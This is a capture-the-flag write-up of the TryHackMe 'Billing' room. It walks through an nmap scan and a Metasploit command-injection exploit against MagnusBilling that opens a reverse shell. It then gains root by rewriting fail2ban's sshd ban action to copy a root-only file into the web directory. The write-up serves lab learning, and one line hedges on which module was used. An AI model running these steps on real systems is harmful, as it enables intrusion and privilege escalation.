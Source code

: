 ```yaml
---
title: Billing
categories: [Web, Easy]
tags: [web, easy, nmap, dirsearch,Metasploit]
image: images/Billing/room_image.webp
---
```


# Billing - TryHackMe Writeup
Billing was a straightforward room where we exploited a command injection vulnerability in the MagnusBilling web application to gain an initial foothold. Afterwards, using our sudo privileges, which allowed us to interact with and configure the fail2ban-server, we successfully escalated to the root user and completed the room.

## Step 1: Initial Reconnaissance with Nmap

Scan the target to identify open ports and services:  
```
nmap -Pn -sC -sV -sC -A -p- <targetIP>
```
![nmap](images/Billing/nmap.png)

**Output**:  
- **Port 22 (SSH)**: Open, indicating potential SSH access.  
- **Port 80 (HTTP)**: Open, hosting a web server.
- **Port 3306 (msql)**
- **Port 5038 (Asterisk)**


Visiting `http://10.10.160.86/` redirects us to /mbilling/, where we find the MagnusBilling application running.

![web](images/Billing/website.png)


## step 2: Gaining an Initial Foothold via MagnusBilling RCE
Given the presence of the MagnusBilling application, our next step was to search for known vulnerabilities associated with it We immediately turned to Metasploit Framework to see if any public exploits were available

Inside msfconsole, we searched for "magnusbilling":

![exploit](images/Billing/use .png)

```bash
msfconsole
search magnusbilling
```
This search yielded several potential exploits. We identified and selected exploit/linux/http/magnusbilling_rce_command_injection (or similar, based on your memory of the specific exploit number you mentioned, e.g., "num 6"). This exploit specifically targets a command injection vulnerability within the MagnusBilling application, which aligns with our goal of achieving Remote Code Execution (RCE).

We then proceeded to configure the necessary options for the exploit:

```console
use exploit/linux/http/magnusbilling_rce_command_injection # Replace with the exact module path
show options
set RHOSTS <targetIP>
set LHOST <yourTun0IP> # Or whatever interface you used for your VPN connection
exploit
```
After executing the exploit, we successfully obtained a reverse shell on the target system. Our initial shell landed us as the www-data user.

We navigated to /home/magnus and located the user.txt flag, confirming our successful initial compromise:

```shell
cd /home/magnus
ls -la
cat user.txt
```
![web](images/Billing/flag1.png)

## Step 3: Privilege Escalation.

Step-by-Step Explanation of the Commands

### 1. Restart Fail2Ban to apply any changes

```bash
sudo /usr/bin/fail2ban-client restart
```

This command restarts the Fail2Ban service.

It ensures any configuration changes or command modifications will be loaded and active.

You see a warning about allowipv6 not defined — this is normal and does not affect functionality.

### 2. Modify the ban action for the SSH jail

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /var/www/html/mbilling/lib/icepay/root_exposed.txt && chmod 777 /var/www/html/mbilling/lib/icepay/root_exposed.txt'"
```

This changes the actionban command for the sshd jail in Fail2Ban.

Instead of only banning IPs via iptables, it runs a bash command.

The bash command copies the content of /root/root.txt to a web-accessible location (/var/www/html/mbilling/lib/icepay/root_exposed.txt).

It then sets the permissions of this file to 777 (read/write/execute for everyone) to ensure it’s accessible.

This effectively leaks the root-only file to the web directory, allowing retrieval via HTTP.

### 3. Trigger the ban action by banning the localhost IP

```bash
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

This manually bans the IP address 127.0.0.1 (localhost) for the sshd jail.

Triggering this ban executes the modified actionban command.

The result is that the secret file is copied and permissioned as defined in step 2

### 4. Verify that the secret file is exposed

```bash
cat /var/www/html/mbilling/lib/icepay/root_exposed.txt
```

This reads and displays the content of the copied file in the web directory.

The file contains the secret flag or sensitive information from /root/root.txt.

It confirms the success of the exploitation.



## Summary
The **"Billing"** machine on TryHackMe presented a clear path to compromise, starting with an Nmap scan to reveal open ports and the **MagnusBilling** web application. We exploited a Remote Code Execution (RCE) vulnerability in MagnusBilling using **Metasploit**, which granted us an initial **www-data** shell. For privilege escalation, we discovered a crucial sudo misconfiguration allowing interaction with **fail2ban-server**. By leveraging this, we successfully escalated to root, fully compromising the system and retrieving both the user and root flags.